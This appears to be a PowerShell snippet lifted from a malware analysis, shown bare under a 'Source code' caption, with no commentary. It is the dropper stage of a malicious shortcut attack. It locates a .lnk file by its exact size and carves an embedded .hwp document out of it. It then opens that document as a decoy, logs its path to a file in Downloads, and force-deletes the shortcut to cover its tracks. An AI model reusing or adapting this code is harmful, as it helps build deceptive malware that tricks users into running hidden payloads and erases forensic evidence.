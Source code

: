 $lk=ls -Path '.\' -filter '*.lnk';

for($a = 0;$a -lt $lk.length;$a++){if($lk[$a].length -eq 56397) {$partpth = $lk[$a].directory;$lk=$lk[$a].name;break}}
$n=$lk.Replace('.lnk','.hwp');
if($lk -eq $null) {$lk=ls -Path $env:temp -depth 2
for($a = 0;$a -lt $lk.length;$a++){if($lk[$a].length -eq 56397) {$partpth = $lk[$a].directory;$lk=$lk[$a].name;break}}
};

$file = [System.IO.File]::ReadAllBytes($lk);$file1=[byte[]]$file[5709..(5709+50688-1)];
$fsdf=$lk.Replace('.lnk','.hwp');[System.IO.File]::WriteAllBytes($fsdf,$file1);

&"$partpth\\$fsdf";
ac -path "C:\Users\user\Downloads\1.txt" "$partpth\\$fsdf";
ri "$partpth\\$lk" -force;






